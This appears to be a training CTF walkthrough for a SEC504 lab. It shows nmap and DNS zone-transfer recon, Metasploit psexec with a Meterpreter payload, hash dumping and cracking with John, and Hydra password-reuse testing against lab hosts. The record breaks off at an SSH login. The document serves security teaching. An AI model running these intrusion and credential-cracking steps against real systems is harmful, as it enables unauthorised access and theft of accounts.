







# CTF Notes

This document describes the CTF for SEC504-E01 and earlier.

## Vulnerability Map

## Flags

**Flag 1:**

<pre>
The phrase that pays is located in several places throughout this room.  Each
flag gives you instructions for finding the phrase.

You will also need the Hydan steganography tool from the CD-ROM.  Install
Hydan, following the directions in the README file.  Read them carefully for
install instructions on Linux.  

Follow the instructions in the flags exactly.  If you follow the instructions
exactly, the memory errors, seg faults, and garbage text will go away.
</pre>

**Flag 2:**

<pre>
Analyze the nc4 program from the course CD-ROM in the Linux directory.
</pre>

**Flag 3:**

<pre>
first half of password = sooper
</pre>

**Flag 4:**

<pre>
second half of password = secret
</pre>

**Bonus Flag:**

<pre>
To get root on a Fedora 6/7/8 machine, such as 10.10.10.35, use a local
privilege escalation exploit tool.  One of my favorites is called vmsplice.
</pre>

### Josh's CTF Walkthrough

10/4/2019

josh@willhackforsushi.com, +1-401-524-2911

#### Critical Tools

+ Nmap
+ Netcat
+ Metasploit
+ John the Ripper
+ Hydra/SSH

#### Terminal Layout

Summary of steps to show at completion of CTF before walkthrough.

#### Password Discovery

Google "Professor Falken Password" described in slides: _Joshua_

#### Enumerate Network

##### Port Scan

<pre>
sec504@slingshot:~$ nmap 10.10.10.* -A -oA target.tgt.scan

Starting Nmap 7.01 ( https://nmap.org ) at 2019-10-03 11:44 UTC
Nmap scan report for 10.10.10.9
Host is up (0.064s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Site doesn't have a title (text/html).
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows 98 netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows 2003 or 2008 microsoft-ds
1025/tcp open  msrpc        Microsoft Windows RPC
5800/tcp open  vnc-http     RealVNC 4.0 (resolution: 400x250; VNC TCP port: 5900)
|_http-server-header: RealVNC/4.0
|_http-title: VNC viewer for Java
5900/tcp open  vnc          VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    VNC Authentication (2)
Service Info: OSs: Windows, Windows 98; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98, cpe:/o:microsoft:windows_server_2003

Host script results:
|_nbstat: NetBIOS name: BETTY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ad:12:0e (VMware)
| smb-os-discovery: 
|   OS: Windows Server 2003 3790 Service Pack 2 (Windows Server 2003 5.2)
|   OS CPE: cpe:/o:microsoft:windows_server_2003::sp2
|   Computer name: betty
|   NetBIOS computer name: BETTY
|   Workgroup: WORKGROUP
|_  System time: 2019-10-03T07:46:57-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol

Nmap scan report for 10.10.10.15
Host is up (0.061s latency).
Not shown: 990 closed ports
PORT      STATE    SERVICE      VERSION
80/tcp    open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Target Widgets - Distributor Portal
135/tcp   filtered msrpc
139/tcp   filtered netbios-ssn
445/tcp   filtered microsoft-ds
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49156/tcp open     msrpc        Microsoft Windows RPC
49157/tcp open     msrpc        Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 10.10.10.35
Host is up (0.058s latency).
Not shown: 992 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp?
|_ftp-bounce: no banner
22/tcp  open  ssh?
23/tcp  open  telnet?
80/tcp  open  http?
111/tcp open  rpcbind?
443/tcp open  https?
513/tcp open  login?
514/tcp open  shell?

Nmap scan report for 10.10.10.45
Host is up (0.058s latency).
Not shown: 992 closed ports
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0            4096 Aug 29  2007 pub
22/tcp  open  ssh        OpenSSH 4.7 (protocol 2.0)
| ssh-hostkey: 
|   1024 bd:01:6c:09:63:c4:63:0a:c7:c2:21:6e:6b:e2:1e:af (DSA)
|_  2048 7d:5e:09:a5:a6:04:cb:3e:04:ca:36:20:9b:78:93:73 (RSA)
53/tcp  open  domain     ISC BIND 9.5.0a6
| dns-nsid: 
|_  bind.version: 9.5.0a6
80/tcp  open  http       Apache httpd 2.2.6 ((Fedora))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.6 (Fedora)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp open  rpcbind    2-4 (RPC #100000)
443/tcp open  ssl/http   Apache httpd 2.2.6 ((Fedora))
|_http-server-header: Apache/2.2.6 (Fedora)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2008-11-11T02:55:45
|_Not valid after:  2009-11-11T02:55:45
|_ssl-date: 2019-10-03T11:47:12+00:00; -1s from scanner time.
513/tcp open  login?
514/tcp open  tcpwrapped
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (4 hosts up) scanned in 260.14 seconds
</pre>

##### DNS Recon

<pre>
sec504@slingshot:~$ nslookup 
> server 10.10.10.45
Default server: 10.10.10.45
Address: 10.10.10.45#53
> 10.10.10.45
Server:		10.10.10.45
Address:	10.10.10.45#53

45.10.10.10.in-addr.arpa	name = fred.target.tgt.
> 10.10.10.35
Server:		10.10.10.45
Address:	10.10.10.45#53

35.10.10.10.in-addr.arpa	name = barney.target.tgt.
> 10.10.10.15
Server:		10.10.10.45
Address:	10.10.10.45#53

15.10.10.10.in-addr.arpa	name = wilma.target.tgt.
> 10.10.10.9
Server:		10.10.10.45
Address:	10.10.10.45#53

9.10.10.10.in-addr.arpa	name = betty.target.tgt.
> set type=AXFR
> target.tgt
Server:		10.10.10.45
Address:	10.10.10.45#53

target.tgt
	origin = barney
	mail addr = root.barney
	serial = 2
	refresh = 10800
	retry = 3600
	expire = 604800
	minimum = 3600
target.tgt	nameserver = fred.target.tgt.
target.tgt	nameserver = barney.
Name:	barney.target.tgt
Address: 10.10.10.35
Name:	betty.target.tgt
Address: 10.10.10.9
Name:	fred.target.tgt
Address: 10.10.10.45
Name:	wilma.target.tgt
Address: 10.10.10.15
target.tgt
	origin = barney
	mail addr = root.barney
	serial = 2
	refresh = 10800
	retry = 3600
	expire = 604800
	minimum = 3600
</pre>

Alternatively, `dig @10.10.10.45 target.tgt –t AXFR` could also be used.

##### Enumeration Notes

+ On 10.10.10.9, SMB access is VERY BAD. We also see VNC, which indicates admins are managing hosts using GUI tools.
+ On 10.10.10.15, multiple ports are filtered, meaning they are inaccessible to us right now. We will need to try to connect to these ports from a different system using lateral movement after initial compromise.
+ On 10.10.10.45, the DNS server, zone transfer is permitted.

| IP Address | Hostname | OS | Ports Open | Ports Filtered | Notes |
| --- | --- | --- | --- | --- | --- |
| 10.10.10.9 | BETTY | Windows 2003 3790 SP2/ 5.2 | 80, 135, 139, 445, 1025, 5800 | | SMB Exposed is VBAD |
| 10.10.10.15 | WILMA | Windows? | 80, 49152-49157 | 135, 139, 445 | |
| 10.10.10.35 | BARNEY | Linux? | 22, 23, 80, 111, 443, 513, 514 | |
| 10.10.10.45 | FRED | Linux/Fedora | 21, 22, 53, 80, 111, 443, 513, 514 | | |

| Username | Password | Host | Confirmed? |
| -------- | -------- | ---- | ---------- |
| falken   | joshua   | ???  | No |

#### Exploit 10.10.10.9

The 10.10.10.9 host has SMB access exposed. Try to use known credentials to access this target using Metasploit `psexec`:

<pre>
sec504@slingshot:~$ msfconsole -q
[-] ***
[-] * WARNING: No database support: No database YAML file
[-] ***
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec) > set RHOSTS 10.10.10.9
RHOSTS => 10.10.10.9
msf5 exploit(windows/smb/psexec) > set SMBUSER falken
SMBUSER => falken
msf5 exploit(windows/smb/psexec) > set SMBPASS joshua
SMBPASS => joshua
msf5 exploit(windows/smb/psexec) > exploit

[*] 10.10.10.9:445 - Connecting to the server...
[*] 10.10.10.9:445 - Authenticating to 10.10.10.9:445 as user 'falken'...
[*] 10.10.10.9:445 - Selecting native target
[*] 10.10.10.9:445 - Uploading payload... YfasgRgQ.exe
[*] 10.10.10.9:445 - Created \YfasgRgQ.exe...
[+] 10.10.10.9:445 - Service started successfully...
[*] 10.10.10.9:445 - Deleting \YfasgRgQ.exe...
[*] Started bind TCP handler against 10.10.10.9:4444
[*] Sending stage (179779 bytes) to 10.10.10.9
[*] Meterpreter session 1 opened (10.10.76.2:42698 -> 10.10.10.9:4444) at 2019-10-03 12:29:57 +0000

meterpreter > 
</pre>

Once we have a Meterpreter session, we can open a command prompt on the system by running `shell`. Examine files using `dir`:

<pre>
meterpreter > shell
Process 212 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 944B-C748

 Directory of C:\

11/11/2008  03:27 AM                 0 AUTOEXEC.BAT
09/23/2019  02:10 PM                23 bonusflag.txt
11/11/2008  03:27 AM                 0 CONFIG.SYS
06/07/2013  09:00 PM    &lt;DIR&gt;          Documents and Settings
11/11/2008  05:47 AM    &lt;DIR&gt;          firefox
04/15/2019  11:43 AM               426 flag1.txt
11/11/2008  05:21 AM    &lt;DIR&gt;          Inetpub
02/18/2007  01:31 AM            94,720 msizap.exe
01/03/1998  03:37 PM            59,392 nc.exe
10/10/2017  10:02 AM    &lt;DIR&gt;          Program Files
09/20/2019  06:20 PM    &lt;DIR&gt;          temp
10/03/2019  08:29 AM    &lt;DIR&gt;          WINDOWS
11/11/2008  03:28 AM    &lt;DIR&gt;          wmpub
               6 File(s)        154,561 bytes
               7 Dir(s)   4,113,903,616 bytes free

C:\&gt;type flag1.txt
type flag1.txt

The phrase that pays is located in several places throughout this room.  
Each flag gives you instructions for finding the phrase.

You will also need the Hydan steganography tool from the course USB.
Follow the directions in the README file.  Read them carefully.  

Follow the instructions in the flags exactly.  
If you follow the instructions exactly, the memory errors, seg faults, and garbage text will go away.
C:\&gt;
</pre>

Return to the Meterpreter prompt by running `exit`. Dump password hashes using `hashdump` at the `meterpreter&gt;` prompt:

<pre>
C:\&gt;exit
exit
meterpreter &gt; hashdump
admin:1013:1858b18e0a139abd358f4be2befbcf0f:744488a3d6b77a8a76d0cf5d19baa6b2:::
Administrator:500:452495d04f81e4c200b44745424c55eb:29affe6ea3732b9bc83c896c84311863:::
falken:1011:4fbd4cea97c5752caad3b435b51404ee:2049b70ec5b6944aed5fef05bc4b1933:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_WILMA:1003:84be91bc0235ae1a23ef11b0f04203ae:2d36d8b39d37e174f350d1f54fa8a93c:::
IWAM_WILMA:1004:4fd3d0eea847cc93d9b3122cfc667c5e:e09dbfeb01becf58d8d83a798e82e79c:::
mike:1010:bb2493b09f6ecfc9aad3b435b51404ee:c0bb120391d5367712cc4c92389bfa21:::
paul:1017:d0a0825c400e051daad3b435b51404ee:6c4585a24a43fa45e2a64e746620d06f:::
peaches:1018:a9ed0f91b3b23974c2265b23734e0dac:d0e23e8494cfc43275d035981551ff11:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:b8697e859faa3aadf1390b559d730e46:::
susan:1009:e52cac67419a9a2236077a718ccdf409:5f946a12c3ebe8640c7c382616045332:::
</pre>

Use John to crack the passwords:

<pre>
sec504@slingshot:~$ john 10.10.10.9.hashes 
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "NT-old"
Use the "--format=NT-old" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 17 password hashes with no different salts (LM [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
PEACHES          (peaches:1)
PASSWOR          (susan:1)
                 (SUPPORT_388945a0)
                 (Guest)
JOSHUA           (falken)
1                (peaches:2)
8                (susan:2)
POOR             (mike)
DIRT33           (paul)
GHT              (Administrator:2)
020              (admin:2)
11g 0:00:00:43 0.03% 3/3 (ETA: 2019-10-05 11:25) 0.2558g/s 44896Kp/s 44896Kc/s 273847KC/s UTS6R..UTSK5
11g 0:00:02:04 0.08% 3/3 (ETA: 2019-10-05 09:39) 0.08870g/s 46668Kp/s 46668Kc/s 281559KC/s R1T7-37..R1T7-N1
11g 0:00:02:08 0.08% 3/3 (ETA: 2019-10-05 09:29) 0.08590g/s 46835Kp/s 46835Kc/s 282514KC/s DEUJHUA..DEUJHHL
Warning: passwords printed above might be partial
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
sec504@slingshot:~$ john --format=NT 10.10.10.9.hashes 
Using default input encoding: UTF-8
Loaded 11 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
peaches1         (peaches)
                 (Guest)
joshua           (falken)
poor             (mike)
dirt33           (paul)
5g 0:00:00:27  3/3 0.1851g/s 21999Kp/s 21999Kc/s 132627KC/s beahro08..beahri11
5g 0:00:02:28  3/3 0.03378g/s 24369Kp/s 24369Kc/s 146334KC/s dysn22a..dysn202
5g 0:00:02:30  3/3 0.03314g/s 24410Kp/s 24410Kc/s 147405KC/s jupmang..jupman7
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
</pre>

> The guest account is ignored because the hashes are default values (inaccessible/disabled account)

Notice how the account for _susan_ is not cracked as an NTLM password, but we did get the password _PASSWOR8_ from the LANMAN hashes. Also, we know the ending values for the Administrator and admin passwords (Administrator:???????GHT, admin:???????020), but not the beginning portions of their passwords.

##### Exploit 10.10.10.9 Notes

+ falken/joshua grants SMB access over `psexec`
+ Meterpreter `hashdump` gives us password hash information
+ John cracks some LANMAN passwords, but we get proper case preservation with `--format=NT` cracking. Not all passwords are cracked.

| IP Address | Hostname | OS | Ports Open | Ports Filtered | Notes |
| --- | --- | --- | --- | --- | --- |
| 10.10.10.9 | BETTY | Windows 2003 3790 SP2/ 5.2 | 80, 135, 139, 445, 1025, 5800 | | SMB Exposed is VBAD |
| 10.10.10.15 | WILMA | Windows? | 80, 49152-49157 | 135, 139, 445 | |
| 10.10.10.35 | BARNEY | Linux? | 22, 23, 80, 111, 443, 513, 514 | |
| 10.10.10.45 | FRED | Linux/Fedora | 21, 22, 53, 80, 111, 443, 513, 514 | | |

| Username | Password | Host     | Confirmed? |
| -------- | -------- | ----     | ---------- |
| falken   | joshua   | BETTY    | yes        |
| peaches  | peaches1 | BETTY    | yes        |
| mike     | poor     | BETTY    | yes        |
| paul    | dirt33   | BETTY    | yes        |
| susan    | PASSWOR8   | BETTY    | no         |
| admin    | ??????   | BETTY    | no         |
| Administrator | ??????   | BETTY    | no         |
| SUPPORT_388945a0 | ??????   | BETTY    | no         |
| IUSR_WILMA | ??????   | BETTY    | no         |
| IWAM_WILMA  | ??????   | BETTY    | no         |

#### Exploit 10.10.10.45

With known passwords, we can start to attack other systems using available services, looking for password reuse cases. One tool for testing passwords is Hydra.

<pre>
sec504@slingshot:~$ hydra -l falken -p joshua ssh://10.10.10.45
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 12:54:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 10.10.10.45   login: falken   password: joshua
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 12:54:33
</pre>

> Alternatively, just try to login using `ssh falken@10.10.10.45`.

This works, but we should enumerate the other accounts that work as well for privilege escalation opportunities against the target system:

<pre>
sec504@slingshot:~$ hydra -l peaches -p peaches1 ssh://10.10.10.45
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 12:57:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 12:57:25
sec504@slingshot:~$ hydra -l mike -p poor ssh://10.10.10.45
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 12:57:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 12:57:41
sec504@slingshot:~$ hydra -l paul -p dirt33 ssh://10.10.10.45
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 12:57:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 12:57:55
</pre>

None of these other recovered accounts work. That's OK, it's all part of the process. Login interatively using the falken/joshua password combination:

<pre>
sec504@slingshot:~$ ssh falken@10.10.10.45
The authenticity of host '10.10.10.45 (10.10.10.45)' can't be established.
RSA key fingerprint is SHA256:BA6O7Jv5No90sjnbh2LhtsxxkH9fm7StzfyJu7zHBts.
